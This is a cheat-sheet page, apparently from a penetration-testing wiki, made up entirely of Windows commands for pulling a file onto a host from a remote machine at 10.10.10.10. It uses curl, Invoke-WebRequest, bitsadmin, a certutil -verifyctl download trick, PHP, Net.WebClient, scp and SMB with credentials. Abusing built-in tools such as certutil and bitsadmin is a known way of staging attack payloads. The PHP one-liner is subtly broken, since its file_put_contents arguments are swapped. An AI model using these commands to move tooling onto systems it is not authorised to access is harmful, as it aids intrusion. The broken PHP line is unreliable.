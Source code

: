 {% tab title="cURL" %}
```powershell
curl http://10.10.10.10/file1 -o file1
```
{% endtab %}

{% tab title="IWR" %}
```powershell
Invoke-WebRequest https://10.10.10.10/file1 -OutFile file1
```
{% endtab %}

{% tab title="bitsadmin" %}
```powershell
bitsadmin /transfer n http://10.10.10.10/file1 C:\Temp\file1
```
{% endtab %}

{% tab title="certutils" %}
```powershell
certutil.exe -verifyctl -split -f http://10.10.10.10/file1
```
{% endtab %}

{% tab title="PHP" %}
{% code overflow="wrap" %}
```powershell
php -r '$file = file_get_contents("https://10.10.10.10/file1"); file_put_contents("$file",file1);'
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Net.WebClient" %}
{% code overflow="wrap" %}
```powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.10.10/file1','c:\temp\file1')
```
{% endcode %}
{% endtab %}

{% tab title="scp" %}
```powershell
scp user@172.16.10.10:/tmp/file1 c:\temp\file1
```
{% endtab %}

{% tab title="SMB" %}
```
# unauthenticated
copy \\10.10.10.10\share\file1
# authenticated
# connect to the share
net use n: \\10.10.10.10\share /user:test test
# transfer
copy n:\file1
```
{% endtab %}
{% endtabs %}

